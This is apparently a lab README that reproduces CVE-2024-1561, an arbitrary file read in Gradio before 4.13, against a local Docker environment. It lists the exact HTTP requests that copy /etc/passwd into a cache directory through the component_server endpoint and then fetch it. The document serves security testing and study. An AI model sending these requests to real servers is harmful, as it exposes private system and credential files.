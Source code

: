 # Gradio Arbitrary File Read (CVE-2024-1561)

[中文版本(Chinese version)](README.zh-cn.md)

Gradio is a Python library that enables users to rapidly build web-based interfaces for machine learning models without writing any front-end code.

In Gradio versions prior to 4.13, the `component_server` endpoint allows attackers to invoke arbitrary methods of the `Component` class. By abusing the `move_resource_to_block_cache` method, an attacker can copy any file from the server to a temporary directory and then retrieve its contents, leading to arbitrary file read.

References:

- <https://github.com/gradio-app/gradio/pull/6884>
- <https://nvd.nist.gov/vuln/detail/CVE-2024-1561>

## Environment Setup

Execute the following command to start an application written by Gradio 4.12.0:

```
docker compose up -d
```

After the environment is started, authentication is not enabled by default. You can access the application through `http://your-ip:7860`.

## Vulnerability Reproduction

First, access the `/config` endpoint to obtain a component's `id` value, such as `3`.

```
GET /config HTTP/1.1
Host: 127.0.0.1:7860
```

![](1.png)

Next, use the `move_resource_to_block_cache` method to copy `/etc/passwd` to a temporary directory. The response will include the temporary file path.

```
POST /component_server HTTP/1.1
Host: 127.0.0.1:7860
Content-Type: application/json

{
  "component_id": "3",
  "data": "/etc/passwd",
  "fn_name": "move_resource_to_block_cache",
  "session_hash": "aaaaaaaaaaa"
}
```

![](2.png)

Finally, access the `/file` endpoint with the returned path to read the file content.

```
GET /file=/tmp/gradio/916eb712d668cf14a35adf8179617549780c4070/passwd HTTP/1.1
Host: 127.0.0.1:7860

```

![](3.png)

If successful, the contents of `/etc/passwd` will be displayed, demonstrating arbitrary file read.
